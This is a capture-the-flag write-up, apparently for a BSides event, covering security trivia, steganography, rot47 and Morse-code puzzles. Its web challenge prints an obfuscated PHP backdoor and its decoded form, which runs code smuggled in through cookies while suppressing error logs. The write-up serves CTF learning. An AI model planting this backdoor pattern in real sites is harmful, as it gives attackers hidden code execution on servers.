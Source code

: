 # General Information : 130 Point in 4 Challenge
- Rocker : 20 Point

I attack was published about me in Defcon Conference in 2011 I gain access to your phone during the charging process
to execute attack you need a cable that supports power and data connection together
The is Flag `juice jacking`

- Search with police  : 30 Point

I'm a new tool developed by a company who unlocked ios phone in a terrorist attack in San Bernardino, California.
This tool developed to a physical analyzer for smartphones like android and ios
The is Flag `UFED`

- Vegetables : 30 Point

I'm an operating system based on Linux designed to encrypt your data using onion routing and works through USB only
The is Flag `Tails`


- WhoAmi : 50 Point

I'm Jack and I have a penetration testing process for Automated Teller Machine and I don't have any money to buy rubber ducky or any advanced kits.
I've seen on the internet that I can do this tool with myself with some tools based on open-source hardware, I need something can simulate rubber ducky to inject code and enable PowerShell command or execute a command on Windows...
What's the name of this piece amid the family names?
The is Flag `leonardo`

# Web Challenge : d3c0d3 m3 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/c99.zip) file Which Contain a php code
```
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
```
- first the variable `$iuq` containe a php built in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`

# Steganography | Zoom Eye 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/invokeme.zip) file Which Contain a image They Give us The Password of zip file `squnity`
- I'm Extract The zip file and found that the image is 13 Mbyte , So There a something hidden in the photo
- I'm used steghide in linux `steghide extract -sf rockme.jpg` , you can install it `apt install steghide`
- steghide requierd a password !!! , I see The Photo and zoom in When I found This Words With Grey Color :D
![Password](https://raw.githubusercontent.com/X-Vector/CTF/master/Bsides/stage2.png?token=Ac-MuA2Jv8cgwzwd0S_h7xgJ7bTE5EPBks5cOlF2wA%3D%3D)
- I try to set this words `l3757ryh4rd3r` as password and the reinvoke.txt file is output
- The File Contain This Character and string
```
{@C6> xADF> :D D:>A=J 5F>>J E6IE @7 E96 AC:?E:?8 2?5 EJA6D6EE:?8 :?5FDECJ] {@C6> xADF> 92D 366? E96 :?5FDECJVD DE2?52C5 5F>>J E6IE 6G6C D:?46 E96 `d__D[ H96? 2? F?<?@H? AC:?E6C E@@< 2 82==6J @7 EJA6 2?5 D4C2>3=65 :E E@ >2<6 2 EJA6 DA64:>6? 3@@<] xE 92D DFCG:G65 ?@E @?=J 7:G6 46?EFC:6D[ 3FE 2=D@ E96 =62A :?E@ 6=64EC@?:4 EJA6D6EE:?8[ C6>2:?:?8 6DD6?E:2==J F?492?865] xE H2D A@AF=2C:D65 :? E96 `he_D H:E9 E96 C6=62D6 @7 {6EC2D6E D966ED 4@?E2:?:?8 {@C6> xADF> A2DD286D[ 2?5 >@C6 C646?E=J H:E9 56D<E@A AF3=:D9:?8 D@7EH2C6 =:<6 p=5FD !286|2<6C :?4=F5:?8 G6CD:@?D @7 {@C6> xADF>]
7=28L5bGb=_Ab507_C0fc=b?fdN
```
- I Think and search in google When I found it's rot47
- I go to [decode.fr](https://www.dcode.fr/rot-47-cipher) and decode it , The Output is
```
Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
flag{d3v3l0p3d_f0r_74l3n75}flag{d3v3l0p3d_f0r_74l3n75}
```
- Then The Flag is `flag{d3v3l0p3d_f0r_74l3n75}`











# Crypto Challenge : abusing 50 Point
- The Challenge is a [mp3](https://github.com/X-Vector/CTF/blob/master/Bsides/abusing.mp3) file Which This Sound Like Morse code
- Go to this [website](https://morsecode.scphillips.com/labs/audio-decoder-adaptive/) then upload mp3 file and you get this result
![Morse code](https://raw.githubusercontent.com/X-Vector/CTF/master/Bsides/morse.png?token=Ac-MuO-G2K009L3yijAsQ08GWK0t_lyFks5cOlHIwA%3D%3D)
- We Play in This Words `ETTE L A G I N M C O D E W E T R U S T` To Get This Result `FLAGINMCODEWETRUST` Then We Submit and we get is wrong Then we add `{}_` to words to be `FLAG{IN_MCODE_TRUST}` and Flag is Correct
